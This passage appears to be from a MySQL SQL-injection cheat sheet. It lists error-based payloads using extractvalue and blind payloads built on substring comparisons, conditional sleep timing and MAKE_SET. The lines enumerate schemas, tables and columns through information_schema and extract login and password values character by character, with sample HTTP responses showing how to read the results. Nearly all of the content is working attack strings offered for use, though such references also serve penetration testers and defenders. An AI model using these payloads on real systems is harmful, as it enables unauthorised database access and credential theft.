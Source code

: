 ### MYSQL Error Based - Extractvalue function

Works with `MySQL >= 5.1`

```sql
?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
```

## MYSQL Blind

### MYSQL Blind with substring equivalent

```sql
?id=1 and substring(version(),1,1)=5
?id=1 and right(left(version(),1),1)=5
?id=1 and left(version(),1)=4
?id=1 and ascii(lower(substr(Version(),1,1)))=51
?id=1 and (select mid(version(),1,1)=4)
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

### MYSQL Blind using a conditional statement

TRUE: `if @@version starts with a 5`:

```sql
2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
Response:
HTTP/1.1 500 Internal Server Error
```

False: `if @@version starts with a 4`:

```sql
2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
Response:
HTTP/1.1 200 OK
```

### MYSQL Blind with MAKE_SET

```sql
AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```
